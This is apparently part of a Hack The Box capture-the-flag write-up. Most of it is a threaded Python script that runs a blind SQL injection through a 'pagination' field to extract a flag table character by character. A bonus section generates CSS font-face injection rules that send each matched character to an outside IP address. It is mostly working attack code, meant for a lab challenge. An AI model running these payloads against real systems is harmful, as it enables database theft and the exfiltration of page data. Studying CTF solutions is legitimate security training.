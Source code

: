 ```python
def exp(index):
    for char in possible:
        print("Trying: ", char, end="\r")
        payload = f"(case when substr((select tbl_name from sqlite_master where tbl_name like 'flag%'),{len(flag)+1},1)='{char}' then '1' else NULL end)"
        # payload = f"(case when substr((select flag from flag_2fb2772e),{index+1},1)='{char}' then '1' else NULL end)"

        body = {
            'submissionID': 1,
            'pagination': payload
        }

        res = requests.post(host, json=body, headers=headers)
        if FILTER_RESPONSE not in res.text:
            print(f"Found: {char} - index: {index}")
            flag[index] = char
            return

if __name__ == '__main__':
    threads = []
    for i in range(THREADS):
        t = threading.Thread(target=exp, args=(i,))
        threads.append(t)
        t.start()
    for t in threads:
        t.join()
    print(''.join(flag))
```

> flag HTB{REDACTED}

### Bonus

Payload to generate CSS Injection

```python
char = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

file_content = ''
fontfam = ''
for i in char:
    unicode_value = ord(i)
    file_content += f'''
@font-face {{
  font-family: "poc";
  src: url(http://45.150.128.239:8000/?q={i});
  unicode-range: U+{unicode_value:04X};
}}
'''

print(file_content)
```
